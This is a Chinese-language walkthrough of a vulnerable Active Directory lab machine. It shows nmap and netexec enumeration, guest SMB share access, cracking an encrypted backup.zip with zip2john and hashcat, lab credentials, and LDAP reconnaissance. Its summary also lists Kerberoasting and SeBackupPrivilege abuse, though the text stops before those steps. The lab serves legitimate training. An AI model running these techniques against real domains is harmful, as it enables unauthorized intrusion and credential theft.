

# ad1

## 攻击链

```
SMB Guest 匿名共享 (share)
  └─ 下载加密包 backup.zip ─▶ zip2john + hashcat 爆破 (qaz123)
       └─ 拿到 user.txt + 低权限域账号 (test : Baby@2026)
            └─ LDAP 域内枚举 ─▶ 发现用户 ll104567 (带 SPN + Remote Management + Backup Operators)
                 └─ Kerberoasting (GetUserSPNs + hashcat) ─▶ 拿到密码 (!QAZ2wsx)
                      └─ WinRM 远程执行 ─▶ 利用 SeBackupPrivilege (robocopy /b) 绕过 ACL 读 root.txt
```


## 环境配置

首先启动环境：

点击babyad1.ovf，在vmware打开，nat模式



## nmap

```bash
┌──(lily2663㉿LAPTOP-L8P806AH)-[~]
└─$ nmap -A 192.168.124.145
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-21 14:30 +0800
Stats: 0:00:43 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.94% done; ETC: 14:31 (0:00:00 remaining)
Nmap scan report for 192.168.124.145
Host is up (0.00070s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-11-21 06:31:22Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: babyad1.dsz, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: babyad1.dsz, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.99%E=4%D=11/21%OT=53%CT=1%CU=36117%PV=Y%DS=2%DC=T%G=Y%TM=6B013A
OS:CE%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=108%TI=I%CI=I%II=I%SS=S%TS
OS:=U)SEQ(SP=105%GCD=1%ISR=10A%TI=I%CI=I%II=I%SS=S%TS=U)SEQ(SP=106%GCD=1%IS
OS:R=108%TI=I%CI=I%II=I%SS=S%TS=U)SEQ(SP=107%GCD=1%ISR=109%TI=I%CI=I%II=I%S
OS:S=S%TS=U)SEQ(SP=107%GCD=1%ISR=10A%TI=I%CI=I%II=I%SS=S%TS=U)OPS(O1=M5B4NW
OS:8NNS%O2=M5B4NW8NNS%O3=M5B4NW8%O4=M5B4NW8NNS%O5=M5B4NW8NNS%O6=M5B4NNS)WIN
OS:(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFF
OS:F%O=M5B4NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=
OS:Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F
OS:=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%
OS:T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD
OS:=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=B3D6%RUD=G
OS:)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=B3F0%RUD=G)U1(R
OS:=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=B3FA%RUD=G)U1(R=Y%DF
OS:=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=B414%RUD=G)U1(R=Y%DF=N%T=
OS:80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=B420%RUD=G)IE(R=Y%DFI=N%T=80%C
OS:D=Z)

Network Distance: 2 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
|_nbstat: NetBIOS name: DC, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:5d:87:fb (VMware)
| smb2-time:
|   date: 2026-11-21T06:31:34
|_  start_date: N/A

TRACEROUTE (using port 80/tcp)
HOP RTT     ADDRESS
1   0.28 ms LAPTOP-L8P806AH.mshome.net (172.22.64.1)
2   1.35 ms 192.168.124.145

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.62 seconds
```

## 进行信息搜集

### 获取域名、主机名与系统确切版本

```bash
┌──(lily2663㉿LAPTOP-L8P806AH)-[~]
└─$ nxc smb 192.168.124.145
SMB         192.168.124.145 445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:babyad1.dsz) (signing:True) (SMBv1:None) (Null Auth:True)
```

### 查看有哪些共享文件夹

```bash
nxc smb 192.168.124.145 -u '' -p '' --shares
SMB         192.168.124.145 445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:babyad1.dsz) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         192.168.124.145 445    DC               [+] babyad1.dsz\:
SMB         192.168.124.145 445    DC               [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

### 枚举域内所有用户

```bash
┌──(lily2663㉿LAPTOP-L8P806AH)-[~]
└─$ nxc smb 192.168.124.145 -u '' -p '' --users
SMB         192.168.124.145 445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:babyad1.dsz) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         192.168.124.145 445    DC               [+] babyad1.dsz\:
```

### 查看密码策略

```bash
┌──(lily2663㉿LAPTOP-L8P806AH)-[~]
└─$ nxc smb 192.168.124.145 -u '' -p '' --pass-pol
SMB         192.168.124.145 445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:babyad1.dsz) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         192.168.124.145 445    DC               [+] babyad1.dsz\:
```

### 测试Guest账号

```bash
┌──(lily2663㉿LAPTOP-L8P806AH)-[~]
└─$ nxc smb 192.168.124.145 -u 'guest' -p '' --shares
SMB         192.168.124.145 445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:babyad1.dsz) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         192.168.124.145 445    DC               [+] babyad1.dsz\guest:
SMB         192.168.124.145 445    DC               [*] Enumerated shares
SMB         192.168.124.145 445    DC               Share           Permissions     Remark
SMB         192.168.124.145 445    DC               -----           -----------     ------
SMB         192.168.124.145 445    DC               ADMIN$                          远程管理
SMB         192.168.124.145 445    DC               C$                              默认共享
SMB         192.168.124.145 445    DC               IPC$            READ            远程 IPC
SMB         192.168.124.145 445    DC               NETLOGON                        Logon server share
SMB         192.168.124.145 445    DC               share           READ
SMB         192.168.124.145 445    DC               SYSVOL                          Logon server share

```

### 连接共享文件夹：

```
smbclient //192.168.124.145/share -U "guest%"
```

### 查看有哪些文件：

```
smb: \> ls
  .                                   D        0  Wed Nov  4 18:02:33 2026
  ..                                  D        0  Wed Nov  4 18:02:33 2026
  backup.zip                          A      836  Wed Nov  4 17:13:15 2026
  readme.txt                          A      710  Wed Nov  4 19:26:38 2026

                5158399 blocks of size 4096. 3038393 blocks available
```

拿到本地：

```
smb: \> get readme.txt
getting file \readme.txt of size 710 as readme.txt (173.3 KiloBytes/sec) (average 173.3 KiloBytes/sec)
smb: \> get backup.zip
getting file \backup.zip of size 836 as backup.zip (408.2 KiloBytes/sec) (average 251.6 KiloBytes/sec)
```

然后exit退出

### 查看readme.txt

```bash
┌──(lily2663㉿LAPTOP-L8P806AH)-[~]
└─$ cat readme.txt
# 运维临时备忘 (内部)

关于近期域控安全排查的通知：
1. 我们的自动化审计脚本发现部分服务账号密码存在弱口令风险，正在逐步重置。
2. 请各位运维人员注意，当前域环境已启用账户锁定策略（连续 5 次失败将锁定 30 分钟），排查密码时切勿使用自动化脚本进行在线喷洒（Spray），请通过合法途径离线验证或联系账号负责人。
3. 这里的 backup.zip 是上周备份的测试账号清单和部分配置文件，已加密。密码我已交接给新的负责人，如有需要请向他索要，不要尝试暴力破解。
4. 交接期间，请勿随意删改域内现有账号和组策略。
```

压缩包aes加密

```bash
┌──(lily2663㉿LAPTOP-L8P806AH)-[~]
└─$ 7z x backup.zip -obackup_out_7z

7-Zip 26.02 (x64) : Copyright (c) 1999-2026 Igor Pavlov : 2026-06-25
 64-bit locale=en_US.UTF-8 Threads:24 OPEN_MAX:10240, ASM

Scanning the drive for archives:
1 file, 836 bytes (1 KiB)

Extracting archive: backup.zip
--
Path = backup.zip
Type = zip
Physical Size = 836


Enter password (will not be echoed):
ERROR: Wrong password : backup/pass.txt
ERROR: Wrong password : backup/user.txt

Sub items Errors: 2

Archives with Errors: 1

Sub items Errors: 2
```

使用常规爆破流程：

先备份：

```
cp ~/backup.zip ~/backup.zip.bak
```

工具位置

```
/usr/sbin/zip2john
```

提取hash

```bash

┌──(lily2663㉿LAPTOP-L8P806AH)-[~]
└─$ zip2john ~/backup.zip > ~/backup.hash
ver 1.0 /home/lily2663/backup.zip/backup/ is not encrypted, or stored with non-handled compression type

┌──(lily2663㉿LAPTOP-L8P806AH)-[~]
└─$ cat ~/backup.hash
backup.zip/backup/pass.txt:$zip2$*0*3*0*52f63f0f640fe517aed2be36dfbb7d6e*22e8*df*015a8a10ecc5d2386a3e4ce64d75d8e8e26b061ed8acdd9de6e8866f972c1fb8b49e5bdea693c8805b5ae2ce1742d0b1dcfa4dee8c9ee75e0abbee1517e0b5470950eaa9af9de9b039bd423bc25e01a7037c8d77f960d5b922cad0ee9dc6b40933e85b19ad739438f42c7788d27ab8ffe313f06f9be7bd1cf7989da27803ecf300c6931aab96dafd8e21a9e6c1aa39e03228b99551e797b6e93952845866ae0269c0f019a12fe12643031e793e83f4bfa392df7c3bd1d8560013959e90e431b1c73c743e53311a7d9b849f5e556d6d91a22573675b642d86261f31efe9346c*d78857598ca242c17929*$/zip2$:backup/pass.txt:backup.zip:/home/lily2663/backup.zip
backup.zip/backup/user.txt:$zip2$*0*3*0*6528c0197b8c7160128df3f8ccabee34*9553*31*298d4cdacec832e7cf0045f7070ca7d34f1976275549169422712b2255dfbe19c61ccb72f46336b35ba4ca1d3e381e23e1*e1ee6dfb9b847c8faa8b*$/zip2$:backup/user.txt:backup.zip:/home/lily2663/backup.zip
```

清理哈希文件：

```bash
awk -F: '{for(i=1;i<=NF;i++) if($i ~ /^\$zip2\$/) print $i}' ~/backup.hash > ~/backup_clean.hash
cat ~/backup_clean.hash
```

跑hashcat+查看结果：

```bash
┌──(lily2663㉿LAPTOP-L8P806AH)-[~]
└─$ hashcat -m 13600 ~/backup_clean.hash /usr/share/wordlists/rockyou.txt --force
hashcat (v7.1.2) starting

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

OpenCL API (OpenCL 3.0 PoCL 7.1+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 21.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #01: cpu-haswell-Intel(R) Core(TM) i7-14650HX, 1467/2934 MB (1467 MB allocatable), 24MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimum salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashes: 2 digests; 2 unique digests, 2 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Slow-Hash-SIMD-LOOP

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 518 MB (1172 MB free)

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$zip2$*0*3*0*52f63f0f640fe517aed2be36dfbb7d6e*22e8*df*015a8a10ecc5d2386a3e4ce64d75d8e8e26b061ed8acdd9de6e8866f972c1fb8b49e5bdea693c8805b5ae2ce1742d0b1dcfa4dee8c9ee75e0abbee1517e0b5470950eaa9af9de9b039bd423bc25e01a7037c8d77f960d5b922cad0ee9dc6b40933e85b19ad739438f42c7788d27ab8ffe313f06f9be7bd1cf7989da27803ecf300c6931aab96dafd8e21a9e6c1aa39e03228b99551e797b6e93952845866ae0269c0f019a12fe12643031e793e83f4bfa392df7c3bd1d8560013959e90e431b1c73c743e53311a7d9b849f5e556d6d91a22573675b642d86261f31efe9346c*d78857598ca242c17929*$/zip2$:qaz123
$zip2$*0*3*0*6528c0197b8c7160128df3f8ccabee34*9553*31*298d4cdacec832e7cf0045f7070ca7d34f1976275549169422712b2255dfbe19c61ccb72f46336b35ba4ca1d3e381e23e1*e1ee6dfb9b847c8faa8b*$/zip2$:qaz123

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13600 (WinZip)
Hash.Target......: /home/lily2663/backup_clean.hash
Time.Started.....: Sat Nov 21 14:56:21 2026, (1 sec)
Time.Estimated...: Sat Nov 21 14:56:22 2026, (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:    37650 H/s (18.58ms) @ Accel:199 Loops:999 Thr:1 Vec:8
Recovered........: 2/2 (100.00%) Digests (total), 2/2 (100.00%) Digests (new), 2/2 (100.00%) Salts
Progress.........: 19104/28688770 (0.07%)
Rejected.........: 0/19104 (0.00%)
Restore.Point....: 4776/14344385 (0.03%)
Restore.Sub.#01..: Salt:1 Amplifier:0-1 Iteration:0-999
Candidate.Engine.: Device Generator
Candidates.#01...: june28 -> devil1
Hardware.Mon.#01.: Util:  5%

Started: Sat Nov 21 14:56:03 2026
Stopped: Sat Nov 21 14:56:23 2026

┌──(lily2663㉿LAPTOP-L8P806AH)-[~]
└─$ hashcat -m 13600 ~/backup_clean.hash --show
$zip2$*0*3*0*52f63f0f640fe517aed2be36dfbb7d6e*22e8*df*015a8a10ecc5d2386a3e4ce64d75d8e8e26b061ed8acdd9de6e8866f972c1fb8b49e5bdea693c8805b5ae2ce1742d0b1dcfa4dee8c9ee75e0abbee1517e0b5470950eaa9af9de9b039bd423bc25e01a7037c8d77f960d5b922cad0ee9dc6b40933e85b19ad739438f42c7788d27ab8ffe313f06f9be7bd1cf7989da27803ecf300c6931aab96dafd8e21a9e6c1aa39e03228b99551e797b6e93952845866ae0269c0f019a12fe12643031e793e83f4bfa392df7c3bd1d8560013959e90e431b1c73c743e53311a7d9b849f5e556d6d91a22573675b642d86261f31efe9346c*d78857598ca242c17929*$/zip2$:qaz123
$zip2$*0*3*0*6528c0197b8c7160128df3f8ccabee34*9553*31*298d4cdacec832e7cf0045f7070ca7d34f1976275549169422712b2255dfbe19c61ccb72f46336b35ba4ca1d3e381e23e1*e1ee6dfb9b847c8faa8b*$/zip2$:qaz123
```

用得到的：qaz123解压

## USERFLAG

```bash
┌──(lily2663㉿LAPTOP-L8P806AH)-[~/backup_out_7z]
└─$ cd backup

┌──(lily2663㉿LAPTOP-L8P806AH)-[~/backup_out_7z/backup]
└─$ ls
pass.txt  user.txt

┌──(lily2663㉿LAPTOP-L8P806AH)-[~/backup_out_7z/backup]
└─$ cat pass.txt
# ==========================================
#  MazeSec Internal Assessment - 测试用户
# ==========================================
#  本文件为域渗透测试环境提供的接入账号，评估目标为获取域管理员
#  权限，并读取其桌面上的 root.txt。
#
#  账号
#    test : Baby@2026
# ==========================================
┌──(lily2663㉿LAPTOP-L8P806AH)-[~/backup_out_7z/backup]
└─$ cat user.txt
flag{user-6b1f4c9d-2a8e-4f3b-9c7d-1e5a8b2c6f04}
```

### 拿到域内身份

将域控信息加入/etc/hosts

```bash
echo "192.168.124.145  babyad1.dsz  DC.babyad1.dsz" | sudo tee -a /etc/hosts
```

利用凭据：

```bash
┌──(lily2663㉿LAPTOP-L8P806AH)-[~/backup_out_7z/backup]
└─$ nxc smb 192.168.124.145 -u test -p 'Baby@2026' -d babyad1.dsz
SMB         192.168.124.145 445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:babyad1.dsz) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         192.168.124.145 445    DC               [+] babyad1.dsz\test:Baby@2026
```

### 并非管理员，走域内信息搜集

接下来做枚举

```bash
# 域用户、组、密码策略
nxc ldap 192.168.124.145 -u test -p 'Baby@2026' -d babyad1.dsz --users --groups --pass-pol
```

```bash
# 域管组成员
nxc ldap 192.168.124.145 -u test -p 'Baby@2026' -d babyad1.dsz --groups "Domain Admins"
```

输出

```bash
┌──(lily2663㉿LAPTOP-L8P806AH)-[~/backup_out_7z/backup]
└─$ nxc ldap 192.168.124.145 -u test -p 'Baby@2026' -d babyad1.dsz --users --groups --pass-pol
LDAP        192.168.124.145 389    DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:babyad1.dsz) (signing:None) (channel binding:No TLS cert)
LDAP        192.168.124.145 389    DC               [+] babyad1.dsz\test:Baby@2026
LDAP        192.168.124.145 389    DC               [*] Enumerated 5 domain users: babyad1.dsz
LDAP        192.168.124.145 389    DC               -Username-                    -Last PW Set-       -BadPW-  -Description-
LDAP        192.168.124.145 389    DC               Administrator                 2026-11-04 17:45:15 1        管理计算机(域)的内置帐户                                            
LDAP        192.168.124.145 389    DC               Guest                         2026-11-04 17:59:17 0        供来宾访问计算机或访问域的内置帐户                                  
LDAP        192.168.124.145 389    DC               krbtgt                        2026-11-04 17:46:32 0        密钥发行中心服务帐户                                                
LDAP        192.168.124.145 389    DC               test                          2026-11-04 17:59:17 0
LDAP        192.168.124.145 389    DC               ll104567                      2026-11-04 17:59:24 0
LDAP        192.168.124.145 389    DC               -Group-                                  -Members- -Description-
LDAP        192.168.124.145 389    DC               Administrators                           3         管理员对计算机/域有不受限制的完全访问权
LDAP        192.168.124.145 389    DC               Users                                    4         防止用户进行有意或无意的系统范围的更改，但是可以运行大部分应用程序
LDAP        192.168.124.145 389    DC               Guests                                   2         按默认值，来宾跟用户组的成员有同等访问权，但来宾帐户的限制更多
LDAP        192.168.124.145 389    DC               Print Operators                          0         成员可以管理在域控制器上安装的打印机
LDAP        192.168.124.145 389    DC               Backup Operators                         1         备份操作员为了备份或还原文件可以替代安全限制
LDAP        192.168.124.145 389    DC               Replicator                               0         支持域中的文件复制
LDAP        192.168.124.145 389    DC               Remote Desktop Users                     0         此组中的成员被授予远程登录的权限
LDAP        192.168.124.145 389    DC               Network Configuration Operators          0         此组中的成员有部分管理权限来管理网络功能的配置
LDAP        192.168.124.145 389    DC               Performance Monitor Users                0         此组的成员可以从本地和远程访问性能计数器数据
LDAP        192.168.124.145 389    DC               Performance Log Users                    0         该组中的成员可以计划进行性能计数器日志记录、启用跟踪记录提供程序，以及在本地或通过远程访问此计算机来收集事件跟踪记录
LDAP        192.168.124.145 389    DC               Distributed COM Users                    0         成员允许启动、激活和使用此计算机上的分布式 COM 对象。
LDAP        192.168.124.145 389    DC               IIS_IUSRS                                1         Internet 信息服务使用的内置组。
LDAP        192.168.124.145 389    DC               Cryptographic Operators                  0         授权成员执行加密操作。
LDAP        192.168.124.145 389    DC               Event Log Readers                        0         此组的成员可以从本地计算机中读取事件日志
LDAP        192.168.124.145 389    DC               Certificate Service DCOM Access          0         允许该组的成员连接到企业中的证书颁发机构
LDAP        192.168.124.145 389    DC               RDS Remote Access Servers                0         此组中的服务器使 RemoteApp 程序和个人虚拟桌面用户能够访问这些资源。在面向 Internet 的部署中，这些服务器通常部署在边缘网络中。需要将此组填充到运行 RD 连接代理的服务器上。在部署中使用的 RD 网关服务器和 RD Web 访问服务器需要位于此组中。
LDAP        192.168.124.145 389    DC               RDS Endpoint Servers                     0         此组中的服务器运行虚拟机和主机会话，用户 RemoteApp 程序和个人虚拟桌面将在这些虚拟机和会话中运行。需要将此组填充到运行 RD 连接代理的服务器上。在部署中使用的 RD 会话主机服务器和 RD 虚拟化主机服务器需要位于此组中。
LDAP        192.168.124.145 389    DC               RDS Management Servers                   0         此组中的服务器可以在运行远程桌面服务的服务器上执行例程管理操作。需要将此组填充到远程桌面服务部署中的所有服务器上。必须将运行 RDS 中心管理服务的服务器包括到此组中。
LDAP        192.168.124.145 389    DC               Hyper-V Administrators                   0         此组的成员拥有对 Hyper-V 所有功能的完全且不受限制的访问权限。
LDAP        192.168.124.145 389    DC               Access Control Assistance Operators      0         此组的成员可以远程查询此计算机上资源的授权属性和权限。
LDAP        192.168.124.145 389    DC               Remote Management Users                  1         此组的成员可以通过管理协议(例如，通过 Windows 远程管理服务实现的 WS-Management)访问 WMI 资源。这仅适用于授予用户访问权限的 WMI 命名空间。
LDAP        192.168.124.145 389    DC               Storage Replica Administrators           0         此组的成员具有存储副本所有功能的不受限的完全访问权限。
LDAP        192.168.124.145 389    DC               Domain Computers                         0         加入到域中的所有工作站和服务器
LDAP        192.168.124.145 389    DC               Domain Controllers                       0         域中所有域控制器
LDAP        192.168.124.145 389    DC               Schema Admins                            1         架构的指定系统管理员
LDAP        192.168.124.145 389    DC               Enterprise Admins                        1         企业的指定系统管理员
LDAP        192.168.124.145 389    DC               Cert Publishers                          0         此组的成员被允许发布证书到目录
LDAP        192.168.124.145 389    DC               Domain Admins                            1         指定的域管理员
LDAP        192.168.124.145 389    DC               Domain Users                             0         所有域用户
LDAP        192.168.124.145 389    DC               Domain Guests                            0         域的所有来宾
LDAP        192.168.124.145 389    DC               Group Policy Creator Owners              1         这个组中的成员可以修改域的组策略
LDAP        192.168.124.145 389    DC               RAS and IAS Servers                      0         这个组中的服务器可以访问用户的远程访问属性
LDAP        192.168.124.145 389    DC               Server Operators                         0         成员可以管理域服务器
LDAP        192.168.124.145 389    DC               Account Operators                        0         成员可以管理域用户和组帐户
LDAP        192.168.124.145 389    DC               Pre-Windows 2000 Compatible Access       1         允许访问在域中所有用户和组的读取访问反向兼容组。
LDAP        192.168.124.145 389    DC               Incoming Forest Trust Builders           0         此组的成员可以创建到此林的传入、单向信任
LDAP        192.168.124.145 389    DC               Windows Authorization Access Group       1         此组的成员可以访问 User 对象上经过计算的 tokenGroupsGlobalAndUniversal 属性
LDAP        192.168.124.145 389    DC               Terminal Server License Servers          0         此组的成员可以使用有关许可证颁发的信息更新 Active Directory 中的用户帐户，以进行跟踪和报告 TS 每用户 CAL 使用情况
LDAP        192.168.124.145 389    DC               Allowed RODC Password Replication Group  0         允许将此组中成员的密码复制到域中的所有只读域控制器
LDAP        192.168.124.145 389    DC               Denied RODC Password Replication Group   8         不允许将此组中成员的密码复制到域中的所有只读域控制器
LDAP        192.168.124.145 389    DC               Read-only Domain Controllers             0         此组中的成员是域中只读域控制器
LDAP        192.168.124.145 389    DC               Enterprise Read-only Domain Controllers  0         该组的成员是企业中的只读域控制器
LDAP        192.168.124.145 389    DC               Cloneable Domain Controllers             0         可以克隆此组中作为域控制器的成员。
LDAP        192.168.124.145 389    DC               Protected Users                          0         此组的成员将受到针对身份验证安全威胁的额外保护。有关详细信息，请参阅 http://go.microsoft.com/fwlink/?LinkId=298939。
LDAP        192.168.124.145 389    DC               Key Admins                               0         此组的成员可以对域中的密钥对象执行管理操作。
LDAP        192.168.124.145 389    DC               Enterprise Key Admins                    0         此组的成员可以对林中的密钥对象执行管理操作。
LDAP        192.168.124.145 389    DC               DnsAdmins                                0         DNS Administrators 组
LDAP        192.168.124.145 389    DC               DnsUpdateProxy                           0         允许替其他客户端(如 DHCP 服务器)执行动态更新的 DNS 客户端。
LDAP        192.168.124.145 389    DC               [+] Dumping password info for domain: babyad1.dsz
LDAP        192.168.124.145 389    DC               Minimum password length: 7
LDAP        192.168.124.145 389    DC               Password history length: 24
LDAP        192.168.124.145 389    DC               Maximum password age: 41 days 23 hours 52 minutes
LDAP        192.168.124.145 389    DC
LDAP        192.168.124.145 389    DC               Password Complexity Flags: 000001
LDAP        192.168.124.145 389    DC                   Domain Refuse Password Change: 0
LDAP        192.168.124.145 389    DC                   Domain Password Store Cleartext: 0
LDAP        192.168.124.145 389    DC                   Domain Password Lockout Admins: 0
LDAP        192.168.124.145 389    DC                   Domain Password No Clear Change: 0
LDAP        192.168.124.145 389    DC                   Domain Password No Anon Change: 0
LDAP        192.168.124.145 389    DC                   Domain Password Complex: 1
LDAP        192.168.124.145 389    DC
LDAP        192.168.124.145 389    DC               Minimum password age: 23 hours 52 minutes
LDAP        192.168.124.145 389    DC               Reset Account Lockout Counter: 15 minutes
LDAP        192.168.124.145 389    DC               Locked Account Duration: 30 minutes
LDAP        192.168.124.145 389    DC               Account Lockout Threshold: 5
LDAP        192.168.124.145 389    DC               Forced Log off Time: Not Set
```

```bash
┌──(lily2663㉿LAPTOP-L8P806AH)-[~/backup_out_7z/backup]
└─$ nxc ldap 192.168.124.145 -u test -p 'Baby@2026' -d babyad1.dsz --groups "Domain Admins"
LDAP        192.168.124.145 389    DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:babyad1.dsz) (signing:None) (channel binding:No TLS cert)
LDAP        192.168.124.145 389    DC               [+] babyad1.dsz\test:Baby@2026
LDAP        192.168.124.145 389    DC               Administrator
```

查Administrators组成员

```
nxc ldap 192.168.124.145 -u test -p 'Baby@2026' -d babyad1.dsz --groups "Administrators"
```

```bash
LDAP        192.168.124.145 389    DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:babyad1.dsz) (signing:None) (channel binding:No TLS cert)
LDAP        192.168.124.145 389    DC               [+] babyad1.dsz\test:Baby@2026
LDAP        192.168.124.145 389    DC               Administrator
LDAP        192.168.124.145 389    DC               Enterprise Admins
LDAP        192.168.124.145 389    DC               Domain Admins
```

没有直接的组成员提权

### 查看ll104567的信息

```bash
nxc ldap 192.168.124.145 -u test -p 'Baby@2026' -d babyad1.dsz --query "(sAMAccountName=ll104567)" "*"
```

```bash
LDAP        192.168.124.145 389    DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:babyad1.dsz) (signing:None) (channel binding:No TLS cert)
LDAP        192.168.124.145 389    DC               [+] babyad1.dsz\test:Baby@2026
LDAP        192.168.124.145 389    DC               [+] Response for object: CN=ll104567,CN=Users,DC=babyad1,DC=dsz
LDAP        192.168.124.145 389    DC               objectClass          top
LDAP        192.168.124.145 389    DC                                    person
LDAP        192.168.124.145 389    DC                                    organizationalPerson
LDAP        192.168.124.145 389    DC                                    user
LDAP        192.168.124.145 389    DC               cn                   ll104567
LDAP        192.168.124.145 389    DC               distinguishedName    CN=ll104567,CN=Users,DC=babyad1,DC=dsz
LDAP        192.168.124.145 389    DC               instanceType         4
LDAP        192.168.124.145 389    DC               whenCreated          20261104095924.0Z
LDAP        192.168.124.145 389    DC               whenChanged          20261104100203.0Z
LDAP        192.168.124.145 389    DC               uSNCreated           12802
LDAP        192.168.124.145 389    DC               memberOf             CN=Remote Management Users,CN=Builtin,DC=babyad1,DC=dsz
LDAP        192.168.124.145 389    DC                                    CN=Backup Operators,CN=Builtin,DC=babyad1,DC=dsz
LDAP        192.168.124.145 389    DC               uSNChanged           12819
LDAP        192.168.124.145 389    DC               name                 ll104567
